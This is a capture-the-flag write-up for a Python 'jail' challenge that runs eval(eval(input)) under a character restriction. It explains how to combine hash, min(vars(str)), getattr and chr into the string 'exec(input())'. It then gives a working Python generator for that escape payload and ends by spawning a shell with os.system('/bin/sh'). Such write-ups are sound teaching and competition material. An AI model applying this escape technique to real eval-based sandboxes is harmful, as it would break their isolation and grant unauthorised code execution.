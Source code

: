 Trying some valid inputs results in prompts like:  
```  
>>> str  
You try double eval'ing your contraption: <class 'str'>  
Your contraption did not work.  
```  
This lets us know that the challenge is doing `eval(eval(input))`. So if we
can craft some `input` that gives us shell, we can break out. If we can find a
valid input that results in the string `"exec(input)" `, then we will have
`eval(eval("exec(input)"))`, from which we can execute arbitrary python code
without the character limitation. However, the character limitation means that
there are very few things we can do to get `"exec(input())"`.

We can:  
1) call functions, since we have access to ()  
2) call built ins that are in the valid character set: `int(), getattr(),
enumerate(), hasattr(), setattr(), ascii(), iter(), min(), set(), sum(),
chr(), vars(), range(), str(), isinstance(), hash()`  
3) create tuples

Notably we can't use e.g. `lambda` or `for`. We also dont have `'` or `"` so
we can't convert any of the letters we have into strings like `"get"`

Trying various combinations of the builtins, we find that we can get numbers
from `int` and `hash`:  
```  
>>> int()  
>>> 0  
>>> hash(str)  
>>> 532164  
```

Python `hash` is not a cryptographic hash. Rather it returns the Python
internal hash value. This effectively (for this chall) is large random
numbers.

We also have `chr` which allows us to convert from unicode codepoint number
e.g. `40` to the character `A`. This suggests a potential approach: we can get
new letters that we didn't previously have access to by getting the unicode
number, and then using `chr`. `hash` called on random objects, e.g. `str`,
`()`, `(str, int)` gives us an endless supply of large numbers. We also have
access to `//` so we can floor divide to get smaller numbers. This hit-or-miss
approach gets quite close, but would require an intensive brute force to try
and find hashes that can be floor divided to get exactly what we want. If only
we had access to some arithmetic ...

Okay, so assuming we are able to get the numbers we need, we now have a new
issue: we cannot construct the final string. if we had the right numbers we
may be able to construct e.g.  
```  
>>> (chr(101), chr(120), chr(101), (chr(99))  
('e', 'x', 'e', 'c')  
```

But this is not equal to `"exec"` which is what we need.

This is the trickiest part of the chall: solving both these problems comes
from a useful coincidence, that is quite hard to discover.

A builtin we have is `vars`. `vars` will return the `__dict__` attribute for
the object we apply it to, which includes all of its callables.  
```  
>>> set(vars(str))  
{'__le__', '__contains__', 'casefold', 'center', 'count', 'find', 'rfind',
'rstrip', 'istitle', 'isprintable', '__ge__', '__rmod__', 'rjust', '__mod__',
'__eq__', 'startswith', '__sizeof__', '__mul__', 'ljust', 'rpartition',
'__getattribute__', 'format', 'isnumeric', 'swapcase', '__getnewargs__',
'zfill', '__doc__', 'isalnum', '__add__', 'rindex', 'isdecimal', '__len__',
'isalpha', 'replace', 'partition', 'expandtabs', 'isspace', 'title',
'__new__', 'islower', 'isdigit', 'join', 'strip', '__format__', 'lstrip',
'upper', 'isupper', 'lower', '__getitem__', '__gt__', 'format_map',
'__repr__', 'rsplit', 'split', 'index', 'endswith', '__hash__', 'maketrans',
'isidentifier', 'splitlines', '__str__', '__ne__', '__lt__', 'translate',
'__rmul__', '__iter__', 'capitalize', 'encode'}  
>>> set(vars(int))  
{'__le__', '__pos__', '__ror__', '__sub__', '__ge__', '__rmod__',
'__rfloordiv__', '__mod__', '__neg__', '__eq__', '__xor__', '__ceil__',
'__rdivmod__', '__sizeof__', '__rsub__', '__rshift__', '__mul__', 'real',
'imag', '__getattribute__', '__pow__', '__getnewargs__', '__divmod__',
'__int__', '__float__', '__index__', '__doc__', 'conjugate', '__rxor__',
'__floor__', '__radd__', '__add__', '__rrshift__', 'denominator', '__or__',
'__truediv__', '__new__', '__trunc__', '__format__', '__rpow__', '__rand__',
'__bool__', '__invert__', '__round__', '__lshift__', '__rlshift__', '__gt__',
'__and__', '__rtruediv__', '__repr__', 'to_bytes', '__hash__', 'from_bytes',
'numerator', '__str__', '__ne__', '__lt__', '__rmul__', '__abs__',
'__floordiv__', 'bit_length'}  
```

If we had any of these strings, we could use `getattr(object, attribute)` to
call a method on an object. This might help with getting arithmetic on math,
since Python `int` has `__add__`, `__sub__`. But how do we get elements out of
the dictionary (returned by `vars`) or the set (returned by `set(vars)`)? We
can `iter` over them, but without `next` (no `x` available), we can't access
the elements still. There is only one useful built-in: `min`. `min` returns
the smallest object in set, or smallest key in dict, based on
_lexicographical_ ordering. Luckily, the smallest thing by lexicographical
ordering is exactly what we want!

```  
>>>min(vars(str)  
>>>'__add__'  
```

Now if we had `a` and `b` we can do `getattr('a', min(vars(str)))('b')` which
returns `ab`. We can also do `getattr(1, min(vars(str)))(2)` which returns
`3`.

The exploit program is below.

First, provide function `n(x)` to represent arbitrary numbers using the
addition trick above and `hash`. Some "magic" numbers must be found from
`hash` that are close to the desired codepoints, otherwise we have recursion
depth exceeded on the chall server.  
```  
one = "hash(())//hash(())"

def add(x, y):  
   return "getattr({},min(vars(str)))({})".format(x, y)

def n(x):  
   if x == 80:  
       return "hash((str,str))//hash(str)//hash(((),))"  
   if x == 39:  
       return "hash((str,()))//hash(((),()))"  
   elif x == 6:  
       return "hash(())//hash(str)"  
   elif x == 1:  
       return one  
   elif x > 80:  
       return add(n(80), n(x - 80))  
   elif x > 39:  
       return add(n(39), n(x - 39))  
   elif x > 6:  
       return add(n(6), n(x - 6))  
   else:  
       return add(one, n(x-1))  
```

Then we get the unicode representation of the shellcode we want, and convert
from unicode into chars, and join again with addition trick from above.  
```  
def char(x):  
   return "chr({})".format(n(ord(x)))

def shell():  
   des = "exec(input())"  
   return (char(x) for x in des)

def joined_shell():  
   init = "str()"  
   for x in shell():  
       init = add(init, x)  
   return init

print(joined_shell())  
```

Running this on the chall server provides `input()` that we can type anything
into. E.g. `import os; os.system("/bin/sh")`. Since this is `input()`, we are
not bound by the restrictions of the jail. This is then run by `exec`, and we
have shell access, the chall flag is in the root dir.